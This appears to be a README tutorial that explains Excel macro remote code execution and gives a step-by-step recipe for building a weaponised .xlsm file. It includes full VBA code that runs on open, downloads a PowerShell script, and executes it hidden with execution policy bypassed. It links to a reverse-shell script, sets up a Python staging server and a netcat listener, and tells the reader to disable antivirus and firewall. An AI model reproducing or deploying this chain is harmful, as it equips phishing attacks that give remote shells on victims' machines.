





# Microsoft Excel Remote Code Execution

## Introduction 

- Microsoft Excel is one of the most widely used spreadsheet programs in the world. While it has many useful features, one that can potentially be misused by hackers is the macro functionality.

- Macros allow you to automate repetitive tasks in Excel by creating small programs or scripts.

- These macros can also be exploited by attackers to run malicious code on your computer remotely without your knowledge. This is known as a remote code execution (RCE) attack.

- Essentially, the attacker can create a specially crafted macro embedded in an Excel file that, when opened, secretly runs their payload on your system.

- While Microsoft has made efforts to improve macro security in Excel over the years, cybercriminals continually find new ingenious ways to bypass these protections. This report will explain in detail how these RCE attacks work through malicious Excel macros.

## Macros

- Macros can be considered as a set of programming instructions that can be recorded, named, saved, and executed in VBA as and when required macros can help us to automate repetitive tasks associated with data manipulation that must be accomplished repeatedly. 
- Note : you can also **enable** and disable macros in Excel.

Some ways with which attackers can leverage malicious macros in Excel are:

Ø **Social Engineering Attacks**: One of the most common methods is through social engineering tactics. Attackers craft a seemingly innocent Excel file containing malicious macros and trick the victim into enabling and running the macros.

Ø **Malicious Add-Ins** : Excel allows installing third-party add-ins which can contain VBA code. Attackers distribute malicious add-ins that install backdoors or malicious macros when loaded.

Ø **PowerShell Integration** in Macros can launch PowerShell scripts on the victim's machine. 
This allows attackers to run PowerShell commands and access system resources

## Recreating the POC

### Prerequisites :-

- Download and install **Microsoft Office 2016 and 2019** on your VM.
- Open Excel go to :
	**File => More => Options => Trust Center => Trust Center Settings => Enable Macros**
	


- Windows VM and Kali Linux VM 

### Flowchart



### Set up Python Server

We have Used Kali Linux to setup our Python Server
This Python Server is a pathway to Pipe our Exploit to Victim's Machine

```sh
python3 -m http.server <port>
```

This will act as our **Backdoor Connection** to our Victim's Device 



#### Powershell Script 

This is our Powershell Script:

LINK :- [Github](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1)

- Save this Powershell script in a `.ps` file 
- Save it in such a folder where it can be accessed via the created python server
- Copy its path you will need it to input in our Vbscript

### Macros Vbscript

This is our Exploit which we have written in our **Macros Vbscript**

```vbscript
Private Sub Workbook_Open()
    ExecuteRemotePowerShellScript
End Sub

Private Sub ExecuteRemotePowerShellScript()
    Dim scriptUrl As String
    Dim scriptFilePath As String
    Dim tempFolder As String
    Dim objShell As Object
    
    ' URL of the PowerShell script
    scriptUrl = "http://example.com/path/to/script.ps1"
    
    ' Local path where you want to save the downloaded script
    tempFolder = Environ("TEMP")
    scriptFilePath = tempFolder & "\script.ps1"
    
    ' Download the PowerShell script from the URL
    If DownloadFile(scriptUrl, scriptFilePath) Then
        ' Check if the script file exists
        If Dir(scriptFilePath) <> "" Then
            ' Execute the PowerShell script in the background
            Set objShell = CreateObject("WScript.Shell")
            objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File """ & scriptFilePath & """", 0, True ' Wait until the script completes
            Set objShell = Nothing
        Else
            MsgBox "Script file not found after download: " & scriptFilePath
        End If
    Else
        MsgBox "Failed to download the script file from URL: " & scriptUrl
    End If
End Sub

Private Function DownloadFile(fileUrl As String, filePath As String) As Boolean
    Dim xmlHttp As Object
    Set xmlHttp = CreateObject("MSXML2.XMLHTTP")
    
    xmlHttp.Open "GET", fileUrl, False
    xmlHttp.Send
    
    If xmlHttp.Status = 200 Then
        Dim adoStream As Object
        Set adoStream = CreateObject("ADODB.Stream")
        
        adoStream.Open
        adoStream.Type = 1 ' Binary
        
        adoStream.Write xmlHttp.responseBody
        adoStream.Position = 0 ' Reset the stream position
        
        If Dir(filePath) <> "" Then
            Kill filePath ' Delete existing file
        End If
        
        adoStream.SaveToFile filePath, 2 ' Overwrite mode
        adoStream.Close
        Set adoStream = Nothing
        
        DownloadFile = True
    Else
        DownloadFile = False
    End If
    
    Set xmlHttp = Nothing
End Function
```
###  Workflow of our Vbscript Exploit :-

-  On execution it downloads the Powershell backdoor exploit from the remote server.
-  Then it saves the downloaded file in a temporary folder `.ps` file in `TEMP` folder 
-  Which is then Executed in the background
-  This exploit will run whenever you try to open your `.xlsm` / Excel file and will run even after   the Excel file is closed in the background 
-  Until its Task is Ended in Task Manager or Victim Computer is Turned Off

### Creating a Malicious Excel File

Download the sample excel .vba file from : [Github](https://github.com/pruthuraut/Excel-RCE-with-Macros)

Paste the code in Virtual Basic Application by pressing ( **Alt + F11** )


Only these two lines of code needs to be Edited , rest should be the same 

```sh
 scriptUrl = " < path to your powershell script > "
``` 

```sh
 scriptFilePath = tempFolder & "\ < name of your powershell script > "
```

Now save the Excel File and Exit

### Set up a Listener : Netcat

On Another Terminal setup a Netcat Listener with this command below :-

```sh
nc -lvnp < Port defined as in your powershell script >
```

### Execution

Check The Following before Opening you File or it may get Flagged :

Turn off all Protections : **Virus and Threat protection** 

**Windows Security < Virus and Threat Protection < Manage settings < Turn off everything**



Turn off all options in  : **Firewall and Network Protection** :

 **Windows Security < Firewall and Network Protection < Turn off everything**

Now try open your `.xlsm` Excel File , check your netcat listener 



We got a **Reverse Shell** of Victim Device : `SHELL>`

